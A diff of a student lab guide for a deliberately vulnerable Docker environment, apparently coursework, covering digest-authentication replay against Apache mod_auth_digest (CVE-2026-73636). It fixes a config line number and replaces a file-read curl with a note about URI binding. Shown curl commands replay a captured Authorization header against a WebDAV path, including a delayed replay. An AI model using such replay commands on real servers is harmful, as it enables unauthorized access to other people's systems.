

Before and after one commit to LyCh1e/INF2005-ACW3, a Markdown page: vulnerable-env/guides/CVE-2026-73636-mod_auth_digest.md, 2 parts joined by grey strips. Rendered like a GitHub page.

````diff
--- a/vulnerable-env/guides/CVE-2026-73636-mod_auth_digest.md
+++ b/vulnerable-env/guides/CVE-2026-73636-mod_auth_digest.md
@@ -70,7 +70,7 @@ Screenshot the full header — note the `realm`, `qop`, and that the
 
 ```
 docker compose exec target grep -n NonceLifetime /usr/local/apache2/conf/extra/httpd-vuln.conf
-# Expected:  35:    AuthDigestNonceLifetime 0
+# Expected:  67:    AuthDigestNonceLifetime 0
 ```
 
 Screenshot this — it's the precondition from the CVE record, proven
@@ -130,10 +130,10 @@ curl -s -H "Authorization: $AUTH" http://<target>:8080/dav/ \
     -o /dev/null -w "GET /dav/ : %{http_code}\n"
 # Expected: 200
 
-# Read any file labuser can read
-curl -s -H "Authorization: $AUTH" http://<target>:8080/dav/README.txt \
-    -o /dev/null -w "GET README : %{http_code}\n"
-# Expected: 200
+# NOTE: The digest response hash includes the request URI, so a header
+# captured for uri="/dav/" only works against /dav/. To read a specific
+# file like /dav/README.txt, you need a header captured for THAT URI
+# (i.e. the victim must have requested /dav/README.txt, not just /dav/).
 
 # And because AuthDigestNonceLifetime is 0, the SAME header works tomorrow:
 sleep 3600 && curl -s -H "Authorization: $AUTH" \
````
Also changed, not shown: vulnerable-env/guides/CVE-2026-93546-mod_dav_fs.md (+11 -9 lines).
